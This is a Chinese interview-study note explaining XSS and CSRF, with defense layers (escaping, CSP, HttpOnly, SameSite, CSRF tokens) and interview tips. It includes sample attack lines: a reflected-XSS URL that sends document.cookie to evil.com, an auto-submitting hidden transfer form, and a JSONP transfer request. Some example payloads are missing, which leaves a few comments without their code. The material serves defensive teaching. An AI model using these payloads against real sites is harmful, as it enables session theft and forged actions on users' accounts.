

# XSS 与 CSRF

> &#11088;&#11088;&#11088;&#11088;&#11088;｜难度：中级｜项目：&#9733;&#9733;&#9733;&#9733;&#9733;

## 一句话总结

**XSS 是"攻击者在你的页面执行恶意脚本"（利用对网站的信任），CSRF 是"攻击者伪装用户发请求"（利用网站对浏览器的信任）。XSS 偷数据，CSRF 伪造操作。——面试中把两者混淆是直接淘汰级别的错误。**

## 核心机制

### 一、XSS（Cross-Site Scripting，跨站脚本攻击）

```
攻击模型：攻击者 → 在目标网站注入恶意脚本 → 受害者访问被感染的页面 → 脚本在受害者浏览器执行
```

**三种 XSS 类型**：



```javascript
// === 反射型 XSS 示例 ===
// URL: https://example.com/search?q=<script>fetch('https://evil.com?cookie='+document.cookie)</script>
// 服务端直接把 q 参数拼到 HTML 中：
// ❌ 服务端响应：<p>搜索「<script>...</script>」的结果：</p>
// → 脚本在受害者浏览器执行 → cookie 被发送到 evil.com

// === 存储型 XSS 示例 ===
// 攻击者在评论区提交：
// 评论内容：
// 每个访问该评论的用户都会中招 —— 危害最大

// === DOM 型 XSS 示例 ===
// 前端代码：
const hash = location.hash.slice(1)   // #
document.getElementById('content').innerHTML = hash  // ❌ 直接插入恶意 HTML
// 服务端从头到尾不知道发生了什么
```

**XSS 防御四层体系**：

```javascript
// 第 1 层：HTML 实体转义（必须）
function escapeHtml(str) {
  const map = { '&': '&amp;', '<': '&lt;', '>': '&gt;', '"': '&quot;', "'": '&#39;' }
  return str.replace(/[&<>"']/g, ch => map[ch])
}
// 所有用户输入在插入 HTML 前必须转义
// Vue 的 {{ }} 自动转义、React 的 JSX 自动转义 —— 这就是为什么不要用 v-html/dangerouslySetInnerHTML

// 第 2 层：CSP（Content Security Policy）—— 即使脚本注入了也执行不了
// HTTP 响应头：Content-Security-Policy: script-src 'self'; object-src 'none'
// 或 HTML meta：<meta http-equiv="Content-Security-Policy" content="script-src 'self'">

// 第 3 层：HttpOnly Cookie —— 即使脚本执行了也偷不走 cookie
// Set-Cookie: sessionId=abc123; HttpOnly; Secure; SameSite=Strict
// HttpOnly → JS 无法通过 document.cookie 读取

// 第 4 层：输入验证 + 白名单过滤
// 富文本场景用 DOMPurify 做白名单过滤
import DOMPurify from 'dompurify'
const clean = DOMPurify.sanitize(userHtml, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br', 'ul', 'ol', 'li'],
  ALLOWED_ATTR: ['href', 'target', 'rel'],
})
```

### 二、CSRF（Cross-Site Request Forgery，跨站请求伪造）

```
攻击模型：
1. 用户登录 bank.com → 获得认证 Cookie
2. 用户在同一个浏览器中访问 evil.com
3. evil.com 的页面中有一个隐藏的 form：
   <form action="https://bank.com/transfer" method="POST">
     <input name="to" value="hacker" />
     <input name="amount" value="10000" />
   </form>
   <script>document.forms[0].submit()</script>
4. 浏览器自动携带 bank.com 的 Cookie 发送请求 → 转账成功
5. 用户毫不知情——攻击者利用的是"浏览器会自动携带目标站点的 Cookie"
```

**CSRF 防御四层体系**：

```javascript
// 第 1 层：SameSite Cookie（2026 年浏览器默认 Lax，最有效的防线）
// Set-Cookie: sessionId=abc123; SameSite=Strict  // 任何跨站请求都不带 cookie
// Set-Cookie: sessionId=abc123; SameSite=Lax     // 只允许"顶级导航"GET 请求带 cookie
//                                                 // （用户点击链接跳转 → 带cookie）
//                                                 // （form POST / img src / iframe → 不带cookie）
// Set-Cookie: sessionId=abc123; SameSite=None; Secure  // 允许跨站携带（必须 HTTPS）

// 第 2 层：CSRF Token（传统方案，SameSite 的补充）
// 服务端生成随机 token → 嵌入表单 hidden field → 提交时服务端校验
// <input type="hidden" name="_csrf" value="random-token-unique-per-session" />
// 攻击者无法读取这个 token（同源策略阻止跨域读页面内容）

// 第 3 层：Referer / Origin 请求头校验
// 服务端检查请求的 Referer/Origin 是否来自合法域名
// ⚠️ Referer 可能被浏览器策略隐藏（Referrer-Policy），不能作为唯一防线

// 第 4 层：敏感操作二次验证
// 修改密码、转账等关键操作要求输入密码 / 验证码 / 手机验证
// 这是最终防线——即使 CSRF 成功了，还有二次验证挡着
```

### 三、XSS vs CSRF —— 面试中最容易被混淆的两个词

| 维度 | XSS | CSRF |
|------|-----|------|
| 攻击目标 | **用户**（在用户浏览器执行脚本） | **服务端**（伪装用户发请求） |
| 利用的信任 | 用户对网站的信任 | 网站对浏览器的信任（Cookie 自动携带） |
| 攻击载体 | 恶意脚本（`<script>`/``/`eval`） | 伪造请求（`<form>`/``/fetch） |
| 直接危害 | 窃取信息（cookie/token/键盘记录）、劫持页面 | 伪造操作（转账/改密码/发帖） |
| 必要条件 | 页面存在注入点 + 未做输出转义 | 用户已登录目标站点 + Cookie 自动携带 |
| 关键防御 | HTML 实体转义 + CSP + HttpOnly | SameSite Cookie + CSRF Token |
| **关联** | **XSS 可以绕过 CSRF Token 防御** | CSRF 可能通过存储型 XSS 进入 |

## 深度拓展

### 为什么 XSS 能绕过 CSRF Token？

如果站点 B 有存储型 XSS 漏洞，攻击者的脚本在页面中执行：
1. 攻击脚本读取页面 DOM 中的 CSRF Token（XSS 可以读任何同源内容）
2. 攻击脚本带着 Token 发送伪造请求
3. **CSRF Token 防御被 XSS 直接瓦解**

这就是为什么 XSS 的严重程度 > CSRF——XSS 是更根本的安全缺陷。

### JSONP 的 CSRF 风险

```html
<!-- JSONP 接口存在 CSRF 利用风险 -->
<script src="https://api.example.com/transfer?to=hacker&amount=10000&callback=done"></script>
<!-- 浏览器发起 GET 请求并携带 Cookie → 服务端执行转账 → 返回 callback 包裹的 JSON -->
<!-- 防御：JSONP 接口不能做写操作、用 CSRF Token 或 Referer 校验 -->
```

### GET 请求也能做 CSRF

```html
<!-- 只需要 img 标签就能触发 GET 请求 CSRF -->

<!-- 浏览器加载这张"图片" → 实际发出 DELETE/GET 请求 → 携带 Cookie → 操作被伪造 -->
```

**这解释了为什么 RESTful 规范中 GET 请求应该是幂等且不改变状态的操作。**

## 项目实战

### 后台管理系统中的安全配置

1. **Token 存储**：accessToken 存 JS 变量（内存，防 XSS），refreshToken 存 HttpOnly + Secure + SameSite=Strict Cookie（防 CSRF + XSS）
2. **富文本编辑器**（v-md-editor / wangEditor）：存储内容前走 DOMPurify 白名单过滤（`ALLOWED_TAGS: ['b', 'i', 'p', 'br', 'table', 'th', 'td', 'a', 'img']`），`<script>`、`onerror`、`onclick` 等必须被剥离
3. **CSP 头配置**：`script-src 'self' 'nonce-{random}'; style-src 'self' 'unsafe-inline'; img-src 'self' https://cdn.example.com`
4. **所有状态变更请求**：POST/PUT/DELETE 必须走 CSRF Token 或 SameSite Cookie 校验
5. **登录/注册表单**：加验证码 + 频率限制（防 CSRF 暴力破解）

## 易错点

1. **认为"Vue/React 自动防 XSS 就万事大吉"** —— `v-html`、`dangerouslySetInnerHTML`、`document.write`、`eval` 这些后门依然需要人工审查
2. **SameSite=Lax 对 GET 跨站请求仍然携带 Cookie** —— 经典的 CSRF 场景用 `img src` 发 GET 请求，SameSite=Lax 拦不住（Lax 只拦截 form POST 和 iframe）。所以 SameSite 要配合 CSRF Token 和 Referer 校验
3. **`escapeHtml` 只转义 HTML 正文上下文** —— JS 上下文（`<script>var x = '用户输入'</script>`）和 URL 上下文（`<a href="用户输入">`）需要不同的转义规则
4. **CSP 的 `nonce` 值必须在每次请求时重新生成** —— 如果 nonce 是可预测的，等于没有 CSP
5. **`` 没有 `<script>` 标签也能执行 JS** —— XSS 防御不能只过滤 `<script>` 标签

## 面试信号表

| 面试官问 | 下一问大概率是 |
|----------|-------------|
| "XSS 和 CSRF 有什么区别" | 追问 XSS 怎么绕过 CSRF Token |
| "怎么防御 XSS" | 追问 CSP 怎么配置 + 富文本场景怎么处理 |
| "SameSite Cookie 能完全防 CSRF 吗" | 追问 SameSite=Lax 对 GET 请求 CSRF 的盲区 |
| "Token 存在哪里最安全" | 追问 accessToken vs refreshToken 的双 Token 方案 |

## 相关阅读

- [同源策略](./same-origin-policy.md)
- [Cookie 深度解析](./cookie.md)
- [浏览器安全机制](./browser-security.md)
- [HTML 实体与编码](../HTML/html-entities.md)

## 更新记录

- 2026-07-10：新建（XSS 三种类型 + CSRF 原理 + 各自四层防御体系 + XSS vs CSRF 对比 + JSONP 风险 + 项目实战）
